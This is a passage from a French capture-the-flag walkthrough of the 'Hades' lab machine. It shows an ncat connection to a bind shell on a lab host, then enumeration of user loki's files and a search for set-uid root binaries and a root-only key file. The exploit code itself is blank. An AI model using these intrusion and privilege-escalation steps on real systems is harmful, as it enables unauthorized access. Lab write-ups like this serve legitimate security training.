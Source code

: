 ```python
```

On lance l'exploit et on se connecte au port 11111 :

```console
$ ncat 192.168.1.53 11111 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.1.53:11111.
id
uid=1000(loki) gid=1000(loki) groups=1000(loki),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

Loki pwned, première étape finie ! (j'avais prévenu que ça allait être long)  

Stealing Hades key
------------------

Une fois que l'on a récupéré un shell plus propre...  

```console
loki@Hades:~$ ls -al
total 40
drwxr-xr-x 3 loki loki 4096 Mar 19 18:59 .
drwxr-xr-x 3 root root 4096 Mar 19 06:23 ..
-rw-r--r-- 1 root root   40 Mar 18 20:22 .bash_history
-rw-r--r-- 1 loki loki  220 Mar 19 06:23 .bash_logout
-rw-r--r-- 1 loki loki 3486 Mar 19 06:23 .bashrc
drwx------ 2 loki loki 4096 Mar 18 20:57 .cache
-rw-r--r-- 1 loki loki  675 Mar 19 06:23 .profile
-rwsr-sr-x 1 loki loki 7035 Mar 18 20:57 loki_server
-rw-r--r-- 1 root root   42 Mar 19 18:59 notes
loki@Hades:~$ cat .bash_history
Really?  Not that kind of challenge....
loki@Hades:~$ cat notes
AES 256 CBC
Good for you and good for me.
```

Dans la racine du système de fichier, on trouve différents fichiers intéressants notamment un exécutable set-uid root et une clé en lecture pour root uniquement :  

```console
loki@Hades:/$ ls -alR display_root_ssh_key/
display_root_ssh_key/:
total 280
drwxr-xr-x  2 root root   4096 Mar 18 20:31 .
drwxr-xr-x 23 root root   4096 Mar 19 17:27 ..
-rw-------  1 root root      1 Mar 19 19:38 counter
-rwsr-sr-x  1 root root 273048 Mar 18 20:31 display_key
loki@Hades:/$ ls -l key_file 
-r-------- 1 root root 9984 Mar 19 17:27 key_file
```

Une fois lancé, le programme `display_key` demande un mot de passe. Après 3 tentatives infructueuses le binaire redémarre le système !  
